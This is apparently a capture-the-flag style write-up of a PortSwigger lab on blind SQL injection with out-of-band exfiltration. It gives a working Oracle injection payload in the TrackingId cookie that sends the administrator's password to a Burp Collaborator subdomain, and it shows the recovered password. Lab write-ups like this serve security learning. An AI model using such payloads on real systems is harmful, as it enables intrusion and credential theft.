 ## Welcome, my friend. Today we will start the [18. SQLLI lab](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/3ddae930-3949-4e2f-a910-c4171e013fae)

### We discover this page and find category paramater.

![image](https://github.com/user-attachments/assets/48e69af8-69c1-4afa-9eec-46b3807799c8)

![image](https://github.com/user-attachments/assets/c2adba0b-0aa6-47d8-95b6-1edd217171bf)

### We notice ```Cookie: TrackingId=Eb2DlklIRjoT6Ebb;``` this param is vulnerable and inject following payload:


### This lab need burp pro for using Burp Collaborator. We add this payload:

```
Cookie: TrackingId=nxkjo8aLjJ9l8Nmr'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

![image](https://github.com/user-attachments/assets/a16551ec-32c6-4a2d-b7f3-179237f5f3f8)

this is password ```c35h95hggt6il43t9d8e``` of administrator

![image](https://github.com/user-attachments/assets/40efc46e-9875-44df-bff7-219597da641f)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/ac822532-b3e6-4dcd-b670-0a007916f2b0" >
</p>
